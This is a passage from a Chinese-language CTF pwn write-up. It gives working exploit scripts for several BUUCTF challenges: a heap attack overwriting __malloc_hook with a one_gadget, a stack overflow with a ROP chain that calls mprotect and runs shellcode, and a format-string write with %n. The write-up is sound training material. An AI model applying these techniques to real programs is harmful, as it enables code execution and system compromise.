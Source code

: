 ```python
free(4) # g

# g->fd = _IO()
payload = p64(base+0x3c4aed)
fill(2, payload)

alloc(0x60) # g5
alloc(0x60) # _IO()6

# _IO() + 0x13 == __malloc_hook(), one_gadget
payload = flat('\x00'*0x13,p64(base+0x4526a))
fill(6, payload)

# malloc() -> __malloc_hook()
alloc(1)
```

### get_started_3dsctf_2016

本地运行脚本：

```python
get_flag = 0x80489a0
payload = flat('a'*0x38,get_flag,'a'*4,0x308cd64f,0x195719d1)
sl(payload)

print r()
```

本来这样是可以直接读取 flag 的，但是远程不行。因此远程运行时换了一种更具难度的方法，就是调用 `mprotect` 修改 `bss` 段权限使得其可执行，随后写入 shellcode。

需要注意 `mprotect` 第二个参数要求页对齐，第三个参数为 `7` 表示 `rwx`。修改完成后从标准输入读入 shellcode，写入 `bss_base` 后返回到 `bss_base` 处执行。

```python
pop3 = 0x80483b8
got_base = 0x80eb000
bss_base = elf.bss()
payload = flat('a'*0x38,elf.sym['mprotect'],pop3,got_base,0x1000,7,elf.sym['read'],pop3,0,bss_base,0x200,bss_base)
sl(payload)
sleep(1)
sl(asm(shellcraft.sh()))
```

### not_the_same_3dsctf_2016

和上面 get_started 做法一样。我怀疑 BUU 上一题在服务器上放错了二进制文件，也放了这一题的，所以第一个脚本才会无效。

### [第五空间 2019 决赛]PWN5

长度限制无法栈溢出，但是存在明显的格式化字符串漏洞。通过 `aaaa %08x %08x ...` 可以判断偏移为 10。

然后利用 `%10$n` 修改 `0x804c044` 地址（IDA 得到）处的值即可，最后输入 `passwd` 需要与已成功输出的字符数相等。当然，也可以直接修改 `atoi` 的 GOT 地址为 `system` 的 PLT 地址。
